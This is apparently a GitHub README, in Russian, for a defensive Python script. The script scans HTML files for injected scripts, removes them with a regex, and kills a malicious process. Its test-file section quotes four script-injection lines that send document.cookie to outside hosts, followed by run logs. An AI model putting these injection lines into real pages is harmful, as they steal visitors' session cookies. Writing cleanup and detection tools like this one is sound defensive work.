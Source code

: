 # searcher_and_killer

# Искатель и убиватель

Скрипт написан часа за 4е в Windows.
1. Регулярка рабочая по логу ниже видно что она правильно возвращает и заменяет найденный паттерн с пустотой
2. Из-за нехватки времени функция searching_html только ищет html и по регулярке паттерны, но не сохраняет файл, для демонстрации работы хватит.
3. Функция киллер процессов работает в окружении Linux как часы.

Скрипт не нужно ставить на крон, достаточно просто запустить в фоне и отрегулировать время сна.

# Принцип работы искателя
Функция искателя ищет по Path, который задается в скрипте, находит все html и построчно по регулярке ищет совпадения.

Содержимое тестового файла:
```
<html>

<script>var i=new Image;i.src="http://asdasdlk.nl/k.php?go=87/?"+document.cookie;</script>

<html><script>var i=new Image;i.src="http://bvcnc445.co.uk/r.php?go=15/?"+document.cookie;</script><>

<script>var i=new Image;i.src="http://lajslidl.cn:444/m.php?go=11/?"+document.cookie;</script>

<script>var i=new Image;i.src="http://uzyxcyuizxct.xxx/l.php?go=32/?"+document.cookie;</script>


</html>

```
Вывод отработки искателя:
```
PS C:\Users\sergm\SK\searcher_and_killer> & C:/Users/sergm/AppData/Local/Programs/Python/Python311/python.exe c:/Users/sergm/SK/searcher_and_killer/main.py
test.html
----------------------------------
<html>



<html><>






</html>
test.html
----------------------------------
<html>



<html><>






</html>
test.html
----------------------------------
```

# Принцип работы убивателя
Для теста запущен тестовый файл f8b7adcecef6836a874765939c4d08d1.py:
```
while True:
    print("Fake process")
```
Лог процесса:
```
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Killed
sm0ke@sm0ke_lab:~$
```
Лог отработки скрипта:
```
sm0ke@sm0ke_lab:~/searcher_and_killer$ sudo python3 main.py
Process Successfully terminated
test.html
----------------------------------
test.html
----------------------------------
^CTraceback (most recent call last):
  File "/home/sm0ke/searcher_and_killer/main.py", line 36, in <module>
    time.sleep(5)
KeyboardInterrupt
```

# Сама регулярка
<div id="regex" align="center">
 <img src="screen_regex.png" alt="ArgoCD repo" width="500" height="200">
<div>